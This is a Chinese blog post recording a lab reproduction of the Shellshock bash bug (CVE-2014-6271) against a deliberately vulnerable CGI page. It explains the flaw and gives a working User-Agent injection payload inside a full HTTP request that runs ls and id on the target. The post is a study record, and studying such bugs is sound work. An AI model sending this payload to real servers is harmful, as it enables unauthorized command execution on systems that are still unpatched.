

# Shellshock 远程命令注入（CVE-2014-6271）漏洞复现 - foe0 - 博客园

> 原文：[`www.cnblogs.com/foe0/p/11359060.html`](https://www.cnblogs.com/foe0/p/11359060.html)

*   **请勿用于非法用法，本帖仅为学习记录**

*   **shelshocke 简介**：
    *   shellshock 即 unix 系统下的 bash shell 的一个漏洞，Bash 4.3 以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的 shell 命令,甚至完全控制目标系统。
    *   bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义，而在处理这样的恶意的函数环境变量时，并没有以函数结尾 “}” 为结束，而是执行其后的恶意 shell 命令。
    *   执行 CGI 时会调用 Bash 将 Referer、host、UserAgent、header 等作为环境变量进行处理。
    *   参考链接：https://blog.csdn.net/qq_40657585/article/details/83242985

*   **复现记录：**
    *   打开 http://ip:8080，可以看到靶场准备了两个 cgi 文件，safe.cgi 是由最新版本的 bash 生成的，victim.cgi 是由 bash4.3 生成的页面，漏洞所在。
    *   
    *   **payload**：

        *   **User-Agent: () { :;};echo;echo $(/bin/ls -al /);/usr/bin/****id;** 其实这一段我反复试过了，交换命令的顺序也会影响执行效果，这个本菜鸟还没搞清楚。。

            ```
            GET /victim.cgi HTTP/1.1 Host: 192.168.183.134:8080 User-Agent: () { :;};echo;echo $(/bin/ls -al /);/usr/bin/**id;** Accept:*/* text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate
            Connection: close
            Referer: http://192.168.183.134:8080/
            Upgrade-Insecure-Requests: 1
            ```

    *   

    *   

        这个问题暂时留着吧。。。